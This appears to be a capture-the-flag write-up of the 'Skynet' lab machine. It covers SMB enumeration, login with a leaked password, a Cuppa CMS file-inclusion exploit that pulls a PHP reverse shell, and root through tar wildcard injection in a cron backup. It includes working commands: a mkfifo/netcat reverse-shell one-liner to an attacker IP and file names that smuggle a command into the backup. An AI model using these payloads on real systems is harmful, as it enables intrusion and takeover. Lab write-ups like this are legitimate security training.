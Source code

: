 # Skynet

> Nashia Holloway | May 2nd, 2020

## Task 1 Deploy and Compromise

**1. What is Miles' password for his emails?**

Inital nmap:

![](initial.png)

enum4linux:

![](share_enum.png)

`smbclient //$IP/anonymous` to connect to the share. Go to the logs directory and `get log1.txt` to pull it locally. Cat it to find list of passwords.

![](mail.png)

```
gobuster dir -u http://10.10.26.76:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Showed the squirrelmail url.

The first password in the `log1.txt` file can be used to login to the mail site with the milesdyson username. There is an email that has his changed password: ")s{A&2Z=F^n_E.B\`". We can try to login to his smb share with this.

![](smb_pass.png)

**2. What is the hidden directory?**

Login to Miles' share.

```
sudo smbclient //$IP/milesdyson -U milesdyson
```

cd into notes and grab "important.txt". 

![](important.png)

The hidden directory is found here.

![](hidden_dir.png)

**3. What is the user flag?**

```
gobuster dir -u http://10.10.26.76:80/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

We find an `administrator/` page and discover a Cuppa CMS is running.

![](cuppa.png)

There's only 1 exploit available for this CMS in exploitdb.

For the reverse shell, set the IP to tun0 and the port to whichever port netcat listens on. Start a python server `python3 -m http.server` and nc listener `nc -lnvp 80`. Then, navigate to: `ip/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.4.248:8080/php-reverse-shell.php` to spawn the shell.

We are running as the user www-data. The user flag is in `/home/milesdyson`. 

**4. What is the root flag?**

`cat /etc/crontab` shows there is a `backup.sh` script running every 1 minute. This goes to the `/var/www/html` directory and makes a backup of everything in there and saves it in `/home/milesdyson/backup`.

![](cronjob.png)

```
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.4.248 1234 > /tmp/f" > shell.sh
```

Open a nc listener and we have a root shell.
